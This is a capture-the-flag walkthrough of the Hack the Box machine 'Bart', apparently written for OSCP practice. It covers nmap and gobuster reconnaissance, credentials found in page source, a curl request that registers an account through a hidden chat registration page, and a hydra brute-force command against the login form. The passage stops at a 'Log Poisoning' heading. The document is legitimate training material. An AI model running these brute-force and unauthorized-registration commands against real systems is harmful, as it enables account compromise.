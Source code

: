 # Hack the Box - Bart

```CSS
Machine IP: 10.10.10.81 - Windows
Difficulty: Medium
Category: OSCP Preparation
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.81 -T4 --min-rate 1000 -oN bart-ports.nmap

Nmap scan report for 10.10.10.81
Host is up (0.19s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.81 -oN bart-services.nmap

Nmap scan report for 10.10.10.81
Host is up (0.20s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.48 seconds
```

---

## HTTP 80
![image](https://user-images.githubusercontent.com/83878909/236593447-0affac53-e265-4702-b827-c5efcea433ec.png)
![image](https://user-images.githubusercontent.com/83878909/236593820-3e12c0f4-8a62-406b-9327-bc2a31f0dce8.png)

### Source
![image](https://user-images.githubusercontent.com/83878909/236599790-0c57cc12-20f2-4fe4-b083-fb60beaebf32.png)

```CSS
 - Harvey Potter
 - Developer@BART
 - h.potter@bart.htb
```

---

## Content Discovery
  - Directory brute-force on `http://10.10.10.81`. Tactical brute-forcing since everything returns a 200 OK status code.
```CSS
▶ gobuster dir --url http://10.10.10.81 --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --status-codes 204,301,302,307 --status-codes-blacklist "" --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/236594591-2ce863d7-4f2c-4a71-a1d1-05ae772d2a5f.png)

  - `http://10.10.10.81/forum/`
![image](https://user-images.githubusercontent.com/83878909/236594545-b9e5b88c-51cc-4d35-b438-4f183f47accf.png)

  - `http://10.10.10.81/monitor/`
![image](https://user-images.githubusercontent.com/83878909/236594492-585124fd-9ad2-4c69-8e42-73ea8e9f3c17.png)

---

## User Credentials
 - Valid username `harvey`.
![image](https://user-images.githubusercontent.com/83878909/236599922-2b67ec2b-442a-4052-b6b7-d2b9a32013b6.png)
 - Valid password `potter`.
![image](https://user-images.githubusercontent.com/83878909/236600049-60666a88-2774-40e6-9c28-d963b1b3117b.png)
 - Login
![image](https://user-images.githubusercontent.com/83878909/236599993-c09e8014-d27d-450d-8895-5024f5090e8d.png)
 - Servers
![image](https://user-images.githubusercontent.com/83878909/236600158-b1e5d6c5-4a14-4aef-9e28-12cdf6823f2b.png)

---

## Internal Domain
![image](https://user-images.githubusercontent.com/83878909/236600307-c1d2080d-0b83-41bd-890d-a8f778723d15.png)

### Content Discovery
```CSS
▶ gobuster dir --url http://internal-01.bart.htb --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --status-codes 204,301,302,307 --status-codes-blacklist "" --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/236602471-f965d25b-1847-4a7a-8793-2a4bfaa768f6.png)

```CSS
▶ gobuster dir --url http://internal-01.bart.htb/log --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --status-codes 204,301,302,307 --status-codes-blacklist "" --extensions php --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/236611172-db440f65-b6da-49bf-ad41-839630786278.png)
![image](https://user-images.githubusercontent.com/83878909/236611523-67fd19df-4b47-497f-8c93-72c26f451421.png)

```CSS
▶ gobuster dir --url http://internal-01.bart.htb/simple_chat --wordlist /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --status-codes 204,301,302,307 --status-codes-blacklist "" --extensions php --threads 25
```
![image](https://user-images.githubusercontent.com/83878909/236611108-bf91d63f-091e-43ad-b4d5-efba299950ab.png)

The source code for the chat server is on github: `https://github.com/magkopian/php-ajax-simple-chat`.
Looking at the code, it looks like the version running here removed the `register_form.php` page, and the link to it from the `login_form.php` page.

### Create User Account
 - Using curl create an account and get access to the site.
```CSS
▶ curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=hardyboy&passwd=password"
```
![image](https://user-images.githubusercontent.com/83878909/236633671-13443158-ce89-4071-b9b5-0cf2855fb313.png)
![image](https://user-images.githubusercontent.com/83878909/236633708-78ee83d4-b630-4ff4-99b6-bb379a9cbd30.png)
 - Logged in using the created username and password. (`hardyboy`:`password`)

### Brute-Force Credentials (Optional)
 - Brute-force password for user `Harvey`.
```CSS
hydra -l harvey -P /usr/share/wordlists/metasploit/common_roots.txt internal-01.bart.htb http-form-post "/simple_chat/login.php:uname=^USER^&^passwd=^PASS^&submit=Login:Password"
```


---

## Log Poisoning
  - Vulnerable Code
![image](https://user-images.githubusercontent.com/83878909/236633855-abf4ab67-f0d7-413e-abfa-a0ce7907cf27.png)
